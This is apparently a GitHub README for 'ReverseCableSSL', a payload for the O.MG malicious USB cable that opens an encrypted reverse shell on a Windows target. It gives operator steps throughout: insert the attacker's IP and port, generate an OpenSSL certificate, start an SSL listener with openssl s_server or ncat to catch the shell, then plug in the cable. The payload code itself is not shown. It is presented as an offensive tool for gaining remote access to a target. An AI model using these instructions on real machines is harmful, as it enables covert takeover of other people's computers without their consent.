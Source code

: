 **Title: ReverseCableSSL**

<p>Author: 0iphor13<br>
OS: Windows<br>
Version: 1.0<br>
Requirements: OMG Firmware v.2.5 or higher</p>

**What is ReverseCableSSL?**
#
<p>ReverseCableSSL gets you remote access to your target in seconds.<br>
Unlike ReverseCable, ReverseCableSSL offers encrypted traffic via OpenSSL.</p>


**Instruction:**
<p>!!!Insert the IP of your attacking machine & PORT into the payload at the beginning!!!<br>
1. Create key.pem & cert.pem like so: <br>
	> openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br>
	It will ask for information about the certificate - Insert whatever you want.<br>

2. For catching the shell you need to start a listener, which supports encrypted traffic.<br>
I recommend openssl itself or ncat - Example syntax for both:<br>
	> `openssl s_server -quiet -key key.pem -cert cert.pem -port [Port Number]` <br>
	> `ncat --listen -p [Port Number] --ssl --ssl-cert cert.pem --ssl-key key.pem`</p>

3. Plug in Cable.

![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/CreateCert.png)
![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/StartScreen.jpg)
